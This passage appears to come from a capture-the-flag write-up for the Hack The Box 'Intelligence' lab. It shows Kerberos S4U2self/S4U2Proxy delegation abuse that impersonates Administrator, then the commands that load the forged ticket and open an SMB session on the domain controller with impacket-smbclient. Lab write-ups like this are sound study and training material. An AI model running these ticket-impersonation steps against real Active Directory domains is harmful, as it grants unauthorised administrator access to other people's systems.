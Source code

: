 ```shell
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
From there, gaining root access to the machine was as simple as logging in via SMB using the downloaded Kerberos ticket.
```shell
┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ export KRB5CCNAME=Administrator.ccache

┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ impacket-smbclient -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# who
host:   \\10.10.14.22, user: Administrator, active:    25, idle:     1
#
```
